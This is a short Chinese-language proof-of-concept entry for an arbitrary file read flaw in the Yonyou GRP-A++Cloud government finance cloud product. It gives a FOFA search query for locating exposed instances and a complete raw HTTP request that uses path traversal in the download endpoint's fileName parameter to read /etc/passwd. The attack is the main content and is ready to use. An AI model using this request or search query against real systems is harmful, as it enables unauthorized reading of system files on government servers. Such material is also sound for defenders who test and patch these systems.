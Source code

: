 # 用友GRP A++Cloud 政府财务云 任意文件读取漏洞

## 1.漏洞描述

用友 GRP-A++Cloud 政府财务云产品是以政府会计准则和预算管理一体化规范为基准，服务于政府行政事业单位，落实国家信创和行政事业单位内部控制规范要求，支持省级集中部署以及内部、外部业务协同，通过构建云原生服务，支撑业务的持续演化和变革，为政府业财一体化、财务规范化、自动化、智能化服务，打造安全、可靠、可控的信息化运行环境，提升各单位数字化治理能力。

在download页面参数为fileName处存在任意文件的读取漏洞

## 2.搜索语法

```markdown
fofa：body="/pf/portal/login/css/fonts/style.css"
```

## 3.漏洞复现

```markdown
GET /ma/emp/maEmp/download?fileName=../../../etc/passwd  HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Wed, 11 Oct 2023 05:16:05 GMT
Connection: close


```

![image-20240615174847474](D:\py\POC\用友GRP A++Cloud 政府财务云 任意文件读取漏洞\image-20240615174847474.png)